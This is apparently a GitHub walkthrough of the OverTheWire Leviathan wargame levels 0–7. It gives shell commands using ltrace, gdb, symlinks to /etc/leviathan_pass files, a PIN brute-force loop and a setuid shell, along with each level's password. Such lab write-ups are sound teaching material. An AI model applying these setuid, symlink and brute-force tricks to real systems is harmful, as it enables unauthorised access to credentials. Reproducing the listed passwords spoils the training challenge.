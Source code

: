 # Leviathan Level 0
```sh
ssh leviathan0@leviathan.labs.overthewire.org -p 2223
# password: leviathan0
cd .backup/
cat bookmarks.html | grep password
# nextpass: rioGegei8m
```
# Leviathan Level 0 → Level 1
```sh
ssh leviathan1@leviathan.labs.overthewire.org -p 2223
# password: rioGegei8m
ls -a
ltrace ./check
# checkpass: sex
./check
# checkpass
cat /etc/leviathan_pass/leviathan2
# nextpass: ougahZi8Ta
```
# Leviathan Level 1 → Level 2
```sh
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
# password: ougahZi8Ta
ltrace ./printfile /etc/leviathan_pass/leviathan3
gdb printfile
```
in gdb
```
b *main+101
r /etc/leviathan_pass/leviathan3
ni
i r
```
- explanation: https://securitytimes.wordpress.com/2017/07/18/leviathan2-3/
or
```sh
ltrace ~/printfile test\ file
```
- explanation: https://blvckb3vrd.wordpress.com/2015/12/11/overthewire-leviathan-level-2/
```sh
mkdir /tmp/mypassfor3/ && ln -s /etc/leviathan_pass/leviathan3 /tmp/mypassfor3/test
ln -s /etc/leviathan_pass/leviathan3 /tmp/mypassfor3/test
touch /tmp/mypassfor3/file\ test
cd /tmp/mypassfor3/
~/printfile test\ file
# Nestpass: Ahdiemoo1j
```
# Leviathan Level 2 → Level 3
```sh
ssh leviathan3@leviathan.labs.overthewire.org -p 2223
# Password: Ahdiemoo1j
ltrace ./level3
# The function `strcmp` compares _test_ with _snlprintf_ means the password is _snlprintf_.
./level3 
# the password
/bin/bash
cat /etc/leviathan_pass/leviathan4
# Nextpass: vuH0coox6m
```
# Leviathan Level 3 → Level 4
```sh
ssh leviathan4@leviathan.labs.overthewire.org -p 2223
# Password: vuH0coox6m
cd .trash
./bin
# Convert to ascii https://www.rapidtables.com/convert/number/binary-to-ascii.html
# Nextpass: Tith4cokei
```
# Leviathan Level 4 → Level 5
```sh
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
# Password: Tith4cokei
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
./leviathan5
# Nextpass: UgaoFee4li
```
- explain: https://programmercave0.github.io/blog/2020/01/06/Leviathan-Level-5-to-6-Basic-Exploitation-Techniques
# Leviathan Level 5 → Level 6
```sh
ssh leviathan6@leviathan.labs.overthewire.org -p 2223
# Passowrd: UgaoFee4li
```
program
```sh
for i in {0001..9999}
do
    echo $i
    ./leviathan6 $i
done
```

```sh
cat /etc/leviathan_pass/leviathan7
# Nextpass: ahy7MaeBo9
```
# Leviathan Level 6 → Level 7
```sh
ssh leviathan7@leviathan.labs.overthewire.org -p 2223
# Password: ahy7MaeBo9

```